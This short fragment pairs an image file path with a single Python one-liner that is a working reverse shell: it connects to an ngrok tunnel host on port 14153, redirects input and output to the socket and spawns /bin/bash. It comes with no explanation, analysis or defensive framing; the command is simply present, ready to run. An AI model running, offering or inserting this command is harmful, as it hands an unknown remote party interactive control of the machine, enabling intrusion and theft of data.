python3 -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.eu.ngrok.io",14153));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
